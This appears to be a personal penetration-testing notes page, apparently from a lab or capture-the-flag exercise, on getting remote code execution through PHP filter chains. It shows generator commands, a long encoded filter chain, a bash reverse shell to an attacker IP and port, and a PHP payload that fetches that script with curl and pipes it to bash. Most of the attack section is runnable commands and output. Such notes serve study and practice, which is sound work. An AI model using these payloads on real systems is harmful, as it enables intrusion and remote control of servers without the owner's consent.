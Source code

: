 For the [Exploit](../../3%20-%20Tags/Hacking%20Concepts/Exploit.md) (RCE) we can use a [Shell](../../3%20-%20Tags/Hacking%20Concepts/Shell.md) through [php filter chain generator](../../3%20-%20Tags/Hacking%20Concepts/php%20filter%20chain%20generator.md) >> https://github.com/synacktiv/php_filter_chain_generator :

<img src="../../2%20-%20Resources/Others/Flameshots/2bc9b6775cab82cd126642935bc1c018.png" alt="2bc9b6775cab82cd126642935bc1c018.png" width="496" height="114" class="jop-noMdConv">

Example :

```
└─$ python3 php_filter_chain_generator.py --chain '<?php phpinfo(); ?>  ' 
[+] The following gadget chain will generate the following code : <?php phpinfo(); ?>   (base64 value: PD9waHAgcGhwaW5mbygpOyA/PiAg)
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.DEC.UTF-16|convert.iconv.ISO8859-9.ISO_6937-2|convert.iconv.UTF16.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.UCS2.UTF-8|convert.iconv.CSISOLATIN6.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|co
```

## Reverse Shell

https://exploit-notes.hdks.org/exploit/web/security-risk/php-filters-chain/

For the [Reverse Shell](../../3%20-%20Tags/Hacking%20Concepts/Reverse%20Shell.md) first we create a [Shell](../../3%20-%20Tags/Hacking%20Concepts/Shell.md) [Script](../../3%20-%20Tags/Hacking%20Concepts/Script.md) named **"revshell"** in local machine.

```
bash -i >& /dev/tcp/10.8.162.183/1337 0>&1

```

Then create a chain using a generator.  
Replace the [IP address](../../3%20-%20Tags/Hacking%20Concepts/IP%20address.md) with your own.

```Linux
└─$ # `<?= ?>` is a shorthand for `<?php echo ~ ?>`
python3 php_filter_chain_generator.py --chain '<?= `curl -s -L 10.8.162.183/revshell|bash` ?>'

[+] The following gadget chain will generate the following code : <?= `curl -s -L 10.8.162.183/revshell|bash` ?> (base64 value: PD89IGBjdXJsIC1zIC1MIDEwLjguMTYyLjE4My9yZXZzaGVsbHxiYXNoYCA/Pg)
```